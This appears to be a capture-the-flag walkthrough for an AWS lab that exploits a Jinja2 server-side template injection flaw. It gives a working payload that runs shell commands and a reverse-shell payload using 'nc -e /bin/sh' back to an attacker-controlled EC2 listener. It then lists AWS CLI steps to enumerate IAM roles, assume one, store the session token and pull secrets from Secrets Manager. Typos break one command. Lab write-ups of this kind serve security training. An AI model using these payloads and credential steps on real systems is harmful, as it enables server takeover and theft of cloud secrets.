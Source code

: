 1. Acccess and exploit given web application with SSTI vulnerability

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('ls',shell=True,stdout=-1).communicate()}}</div>
    ```

2. Prepare an EC2 instance which will serve as attaccker's server
   - Allow TCP traffic from victim's server coming to port `4444` in Security group
   - open port `4444` using `nc`
   -  you may use other ports instead of `4444`

    ```bash
    nc -lvp 4444
    ```

3. Run below payload on vulnerable web application
   - It will give control over `web application`'s server to `attacker`'s  server.

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('nc -e /bin/sh Public_IP_address_of_attacking_server 4444 ',shell=True,stdout=-1).communicate()}}</div>
    ```
4. List IAM roles 
    - Use EC2 instance created at `2.`
    ```bash
    # List IAM role which contains word "SSTI"
    aws iam list-roles | grep SSTI
    ```
5. List attached policies of IAM role
   - Look for role which contains  `secretsmanager`

    ```bash
    aws iam list-attached-role-policcies --role-name name_of_role_you_want
    ```
6. Assume role

    ```bash
    aws --region us-east-1 sts assume-role --role-arn arn_of_role_you_want --role-session-name any_name
    ```

7. configure profile `assumed-role` to use credentials retrieved above

    ```bash
    aws configure --profile assumed-role
    ```

8. Use `echo` to add `aws_session_token` to `~/.aws/credentials`

    ```bash
    echo 'aws_session_token = SessionToken_retrieved_above' >> ~/.aws/credentials
    ```

9.  Access secrets using configured profiles 

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager list-secrets | grep SSTI
    ```

10. Get flag

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager get-secret-value --secret-id arn_of_flag
    ```
